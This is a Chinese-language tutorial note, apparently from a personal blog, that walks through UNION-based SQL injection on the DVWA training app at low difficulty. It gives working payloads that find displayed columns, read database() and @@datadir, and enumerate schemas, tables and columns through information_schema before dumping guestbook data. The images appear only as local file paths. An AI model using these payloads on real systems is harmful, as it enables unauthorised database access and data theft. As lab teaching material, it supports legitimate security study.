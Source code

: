> 当我们查询的数据库信息会回显到浏览器上时,考虑使用联合查询注入
>
> 流程:
>
> 1. 



> 这里使用dvwa  low难度进行具体的演示
>
> 关键查询语句为
>
> ` $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; `
>
> 输入 1
>
> ![image-20210516112342059](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516112342059.png)
>
> 判断是否为字符型
>
> ... 略  源代码为字符型
>
> 注意, 下面的输入 在 -- 后面都有空格
>
> 判断显示字段( -1' union select 1,2 --  )
>
> ![image-20210516124646448](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516124646448.png)
>
> 使用自带函数获取敏感信息(-1' union select database(),@@datadir --  )
>
> ![image-20210516124826965](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516124826965.png)
>
> ***
>
> 开始手工获取信息
>
> 1. 获取数据库信息( 通过更改offset的值遍历数据库)
>
>    在information_schema.SCHEMATA的SCHEMA_NAME列存储的是数据库的名字
>    -1' union select (select SCHEMA_NAME from information_schema.SCHEMATA limit 1 offset 0),2 -- 
>    -1' union select (select SCHEMA_NAME from information_schema.SCHEMATA limit 1 offset 1),2 -- 
>    -1' union select (select SCHEMA_NAME from information_schema.SCHEMATA limit 1 offset 2),2 -- 
>
>    ![image-20210516134928345](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516134928345.png)
>
> 2. 从dvwa数据库中获取数据表信息
>    -1' union select (select table_name from information_schema.tables where TABLE_SCHEMA='dvwa' limit 1 offset 0),2 -- 
>    -1' union select (select table_name from information_schema.tables where TABLE_SCHEMA='dvwa' limit 1 offset 1),2 --
>    ![image-20210516140446014](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516140446014.png) 
>
> 3. 获取guestbook数据表的字段信息
>    -1' union select (select column_name from information_schema.columns where TABLE_NAME='guestbook' limit 1 offset 1),2 --
>    ![image-20210516140730824](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516140730824.png)
>
> 4. 获取该列具体数据(此时已知了数据库、表等信息可直接查询)
>    -1' union select (select comment from dvwa.guestbook limit 1 offset 0),2 --
>    ![image-20210516140952510](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516140952510.png)

